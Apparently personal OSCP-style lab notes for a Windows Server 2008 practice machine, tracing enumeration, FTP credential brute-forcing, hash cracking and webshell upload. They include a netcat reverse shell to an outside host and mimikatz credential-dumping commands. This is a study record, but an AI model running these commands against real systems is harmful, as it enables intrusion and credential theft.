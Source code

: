 ### Enumeration
```
IP=192.168.239.46
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p21,242,3145,3389 -A $IP
```
#### Ports 
- 21
	- zFTPServer 6.0 build 2011-10-17
		- exploit-db 18235
			- directory traversal
			- `./18235.pl $IP 96`
			- rmdir failed access denied
			- changed to admin:admin
				- still rmdir failed access denied
- 242
	- Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
- 3145
	- zFTPServer admin
- 3389
	- ssl/ms-wbt-server
- OS: Windows 2008
### Foothold
- 21
	- ftp anonymous@$IP
		- Successful
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
		- admin:admin
			- successful
	- Accounts
		- backup
		- offsec
		- anonymous
		- admin
	- ftp admin@$IP
		- index.php
		- .htpasswd
			- `offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0`
			- hashcat -m 1600 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/phpbb.txt
				- elite
		- .htaccess
		- allows us to put php webshell in
- 242
	- ![[Pasted image 20240701095957.png]]
	- Tried
		- anonymous:anonymous
		- admin:admin
	- Able to get logged into with offsec:elite
	- navigate to webshell.php
		- ![[Pasted image 20240701102915.png]]
		- put a base64 ps1 rev shell > not recognized
		- Put php rev shell in ftp server  >  not working
		- Put nc.exe in ftp server. Used this command to get RCE: `nc.exe 192.168.45.195 8000 -e cmd`
- 3145
	- Loads forever
### PE
- `livda\apache
	- whoami /all
		- SeImpersonatePrivilege enable
			- PrintSpoofer32.exe  did not work
		- SeChangeNotifyPrivilege enable
		- SeCreateGlobalPrivilege enable
	- systeminfo
		- Windows Serverr 2008 6.0.6001 Service Pack 1 Build 6001
		- X86-based
		- python2 windows-exploit-suggester.py --database 2024-07-01-mssb.xls --systeminfo systeminfo.txt
			- nothing
		- ./wes.py ~/OSCP/exploits/windows/Windows-Exploit-Suggester/systeminfo.txt > ~/OSCP/boxes/authby/systeminfo_exploits.txt
			- Alots of exploits
		- Google Windows Server 2008 6.0.6001
			- ms11-046 - exploitdb 40564
			- ![[Pasted image 20240701111754.png]]
			- ![[Pasted image 20240701111801.png]]
	- Unquoted
		- cmd
			- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
				- wampmysqld
					- `c:\wamp\bin\mysql\mysql5.5.16\bin\mysqld.exe wampmysqld`
				- zFTPSvc
					- `C:\Program Files\zFTPServer\zFTPServer.exe /service`
		- icacls Filepath before .exe
			- Looking for W or F
	- /Users
		- Administrator
		- apache
		- Public
	- /ManageEngine/ServiceDesk
		- /archive
			- empty
		- /backup
			-  A few backup files
			- Unreadable with type
		- /dict
			- en_US.zip
		- /logs
			- create logs
		- /scannedxmls
			- empty
	- mimikatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
			- unable to elevate
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
			- unable to elevate
### Lessons Learned
- For windows exploits. Use google first then try exploit suggester
- Try all valid creds everywhere and see what sticks